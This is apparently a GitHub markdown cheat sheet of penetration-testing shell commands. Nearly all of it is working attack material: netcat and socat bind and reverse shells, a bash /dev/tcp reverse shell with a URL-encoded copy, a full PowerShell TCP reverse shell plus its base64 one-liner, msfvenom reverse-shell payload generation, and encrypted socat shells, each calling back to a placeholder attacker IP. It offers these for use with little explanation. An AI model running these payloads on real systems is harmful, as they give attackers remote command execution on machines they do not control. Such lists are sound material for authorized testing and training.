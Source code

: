 - N.b. many commands below are being run as `sudo` to make use of a port in the `0-1024` range, since root is needed to bind a listener to a port `<1024`. Beyond this range this is not necessary.

## NETCAT

### Flags:
- `-n` Skip DNS resolution
- `-v` Verbose
- `-l` Create listener
- `-p <port number>` To specify port number

Create Listener:
```bash
nc -nlvp <port to listen on>
```
Make Connection:
```bash
nc -nv <IP address> <port>
```
Listen For File Transfer:
```bash
nc -nlvp <port> > incoming
```
Send File:
```bash
nc -nv <IP address> <port> < file/to/transfer
```
Create Bind Shell Windows:
```bash
nc -nlvp <port> -e cmd.exe
```
Send Reverse Shell Linux:
```bash
cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f
```

## OTHER

### Simple Reverse Shell Linux:
```bash
bash -c "bash -i >& /dev/tcp/<OurIP>/4444 0>&1"
```
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22
```
### Powershell Reverse Shell (Base64 Encoded):
```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```
And now all in one line:
```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'))
```
```bash
powershell -enc <our Base64 encoded Powershell revshell>
```
### msfvenom
For when your existing shell is kinda shit, upgrade it to an msfvenom one: https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
Linux:
```bash
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
Windows:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
```

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

### Bind Shell:
Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
```bash
sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash
```
Now just connect with the target
```bash
socat - TCP4:<target IP>:443
```
### Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d TCP4-LISTEN:443 STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443 EXEC:/bin/bash
```
### File Transfer (Attacker to Target):
Prepare listener on source that will send the file to any machine that makes a connection
```bash
sudo socat TCP4-LISTEN:443,fork file:<filename>
```
Connect to source from target
```bash
socat TCP4:<IP address>:443 file:<received filename>,create
```
### Generate .pem:
Generate certificate on target machine
```bash
openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create .pem from keyfile and certificate
```bash
cat shell.key shell.crt > shell.pem
```
### Encrypted Bind Shell:
Begin listening for attempts to connect, and deliver a shell to anyone who tries
```bash
sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
Connect like so
```bash
socat - OPENSSL:<target IP>:443,verify=0
```
### Encrypted Reverse Shell:
Create listener on our machine
```bash
sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT
```
Send shell from target machine
```bash
socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash
```
